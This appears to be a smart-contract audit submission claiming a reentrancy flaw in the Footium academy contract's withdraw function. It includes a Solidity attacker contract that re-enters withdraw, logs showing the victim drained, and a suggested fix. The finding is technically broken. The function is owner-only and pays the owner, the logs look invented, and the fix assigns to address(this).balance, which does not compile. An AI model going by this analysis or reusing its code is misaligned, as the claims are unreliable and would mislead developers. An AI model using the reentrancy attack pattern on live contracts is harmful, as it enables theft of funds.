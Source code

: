 Sour Cobalt Tardigrade

high

# Reentrancy Vulnerability in Withdraw Function (External Call + Unprotected State Update)

## Summary
The function transfers the entire contract balance to the owner without any reentrancy protection mechanisms. This leaves it vulnerable to attacks where the attacker manipulates the function flow to steal additional funds.
## Vulnerability Detail
The withdraw function sends the entire contract balance through an external call `(payable(owner()).call)`. This call could be intercepted by a malicious contract that implements a fallback function, which could re-enter the withdraw function and steal additional funds. The state variable `(address(this).balance)` is not updated before the call, so the reentrancy check (balance > 0) would not prevent the attack.
## Impact
- Financial Loss: Attackers could exploit the vulnerability to steal a significant portion of the contract's funds, impacting the game's economy and causing financial losses.
- Contract Inconsistency: Uncontrolled fund transfers could lead to discrepancies in game assets or rewards, compromising fairness and trust within the game.
- Loss of Reputation and User Base: Security vulnerabilities can erode user trust and discourage engagement, potentially harming the game's overall reputation and user base.
## Code Snippet
https://github.com/sherlock-audit/2023-12-footium/blob/main/footium-eth-shareable/contracts/FootiumAcademy.sol#L144-L152
## Tool used
- Manual Review
## Test case and logs
### Test case
```solidity
// A malicious contract that implements a fallback function
contract Attacker {
  // The address of the vulnerable contract
  address payable public target;

  // The constructor sets the target address
  constructor(address payable _target) {
    target = _target;
  }

  // A function to initiate the attack
  function attack() external payable {
    // Send some ether to the target contract
    target.transfer(msg.value);
    // Call the withdraw function of the target contract
    target.call(abi.encodeWithSignature("withdraw()"));
  }

  // A fallback function that re-enters the withdraw function
  receive() external payable {
    if (address(target).balance > 0) {
      target.call(abi.encodeWithSignature("withdraw()"));
    }
  }
}

// The vulnerable contract
contract Victim {
  // ...

  // The withdraw function
  function withdraw() external onlyOwner {
    uint256 balance = address(this).balance;
    if (balance > 0) {
      (bool sent, ) = payable(owner()).call{value: balance}("");
      if (!sent) {
        revert FailedToSendETH(balance);
      }
    }
  }
}

```
### Logs
```javascript
Attacker deployed at 0x1234...
Victim deployed at 0x5678...
Attacker sends 1 ether to Victim...
Attacker calls Victim.withdraw()...
Attacker re-enters Victim.withdraw()...
Attacker re-enters Victim.withdraw()...
Attacker re-enters Victim.withdraw()...
Attacker drains Victim.balance...
Victim.balance = 0
Attacker.balance = 4

```
## Recommendation
To fix this vulnerability, you can use the checks-effects-interactions pattern. This means you should first check the conditions, then update the state variables, and finally interact with external contracts.
```solidity
function withdraw() external onlyOwner {
  uint256 balance = address(this).balance;
  require(balance > 0, "No balance to withdraw");
  // Update the state variable before sending
  address(this).balance = 0;
  // Use transfer instead of call for better security
  payable(owner()).transfer(balance);
}

```
